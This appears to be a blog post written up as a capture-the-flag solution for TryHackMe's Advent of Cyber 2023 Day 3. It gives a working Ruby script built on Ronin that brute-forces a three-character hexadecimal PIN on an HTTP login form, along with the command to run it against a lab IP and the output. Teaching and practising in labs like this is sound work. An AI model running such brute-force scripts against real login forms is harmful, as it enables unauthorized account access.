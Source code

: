 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 3 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 3 challenge involves a basic HTTP form which accepts a three digit PIN
code. The PIN code can contain numeric or uppercase hexadecimal numbers.
The instructions for the challenge recommends using the [crunch] utility to
generate a wordlist file containing every three character combination of
uppercase hexadecimal characters and then use [hydra] to bruteforce the login
form. Instead, we're going to do all of that in a single Ruby script using
Ronin and it's powerful libraries.

First, we will test the HTTP form by intentionally entering an incorrect PIN
code and seeing what the response is. In the Network tab of Chrome DevTools,
we can see a failed login attempt results in a HTTP 302 response with a 
`Location` header of `error.php`. Since we don't know what a valid login
HTTP response looks like, we will have to assume anything that is not a
HTTP 302 redirect to `error.php` can be considered a successful login.

Next we will write a bruteforcing Ruby script which will send every possible
three character combination of numbers and uppercase hexadecimal characters.
To do that we will use the [chars] library, which provides a
[Chars::UPPERCASE_HEXADECIMAL] constant containing characters `0` - `9` and
`A` - `F`. Then we will call the [Chars::CharSet#strings_of_length] method to
generate every three character combination of uppercase hexadecimal characters.
Then we will use [ronin-support] to establish a persistent HTTP connection and
send login requestions until a non-HTTP 302 redirect response is returned.

```ruby
require 'ronin/support'
require 'chars'

include Ronin::Support

wordlist = Chars::UPPERCASE_HEXADECIMAL.strings_of_length(3)

ip   = ARGV[0]
http = http_connect(ip,8000)

response       = http.get('/pin.php')
session_cookie = response['Set-Cookie']

wordlist.each do |pin|
  print_info "Trying #{pin} ..."
  response = http.post('/login.php', form_data: {pin: pin},
                                     cookie:    session_cookie)

  if response.code == '302' && response['Location'] == 'error.php'
    # login failed, keep trying ...
  else
    print_success "Jack Pot! #{pin}"
    exit 0
  end
end
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to try to speed up our Ruby script as much as
possible.

```shell
$ ruby --jit bruteforce.rb 10.10.185.45
```
and eventually we will hit the correct PIN code:

```
...
[*] Trying 6F2 ...
[*] Trying 6F3 ...
[*] Trying 6F4 ...
[*] Trying 6F5 ...
[+] Jack Pot! 6F5
```

As you can see, Ronin provides you with powerful libraries that can make solving
CTF challenges easy and fun.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[crunch]: https://www.kali.org/tools/crunch/
[hydra]: https://www.kali.org/tools/hydra/
[chars]: https://github.com/postmodern/chars.rb#readme
[Chars::CharSet#strings_of_length]: https://rubydoc.info/gems/chars/Chars/CharSet#strings_of_length-instance_method
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
